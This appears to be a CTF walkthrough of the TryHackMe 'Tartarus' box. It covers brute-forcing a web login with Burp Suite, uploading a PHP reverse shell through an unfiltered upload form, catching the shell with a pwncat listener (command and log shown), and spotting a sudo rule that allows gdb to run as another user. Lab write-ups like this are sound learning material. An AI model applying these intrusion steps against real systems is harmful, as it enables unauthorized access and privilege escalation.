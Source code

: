 In the Directory there are two files, witch are interesting. 

c#########s.txt and u####d. 

I decided to go with Burb-Suite to brute force the username and password.  

Burp-Suite was able to find a username: "e##x" 
Now i have the username i will check the password for the username. Also with Burp-Suite. 
I tried with hydra, but hydra provided me more password witch i needed. 
The command for hydra is in the top of the writeup. 

Burp-Suite found the Password for user: P##########4

After the login, we are on a Upload page where we can upload files to the Web-Server. 

Testet the Upload page with a php file, to check if i can upload a php file to the webserver.

PHP files are not blocked from the upload so i can upload the php-reverse-shell.php file from PTM.

The file is uploaded to the folder "/images/uploads/"

When the file was uploaded, i navigate to the upload directory and startet a listener on my target. As a listener i was going with pwncat, this was my first Room where i tried Pwncat.  

Open the shell scirpt on the target and pwncat got a reverse conneciton.

```sh
┌──(fr3akazo1d💻fr3ak0ut)-[~/PenetrationTesting/THM/Boxes/Tartarus]
└─$ pwncat --config /git/pwncat/data/pwncatrc -p 9901 -l
[23:10:52] error: data/pwncat: no such file or directory                 set.py:96
[23:10:57] received connection from 10.10.213.137:55058             connect.py:255
[23:10:57] new host w/ hash 7906cf3f08612e1f4824c25902d5d224         victim.py:321
[23:11:01] pwncat running in /bin/sh                                                                                                                        victim.py:354
[23:11:02] pwncat is ready 🐈                                                                                                                               victim.py:771
(remote) www-data@ubuntu-xenial:/$ 
(remote) www-data@ubuntu-xenial:/$ 
```
## Acess to target

When i got access to the target i always check if the user can run a command with sudo and no Password. 
When i got the shell on the Target i was the user "www-data".

```sh
(remote) www-data@ubuntu-xenial:/home/thirtytwo$ sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```

The user www-data can run a command with the user thirtytwo. 
Now lets have a look into the gdb file witch i can run as user. 
gtfobins give me this. 
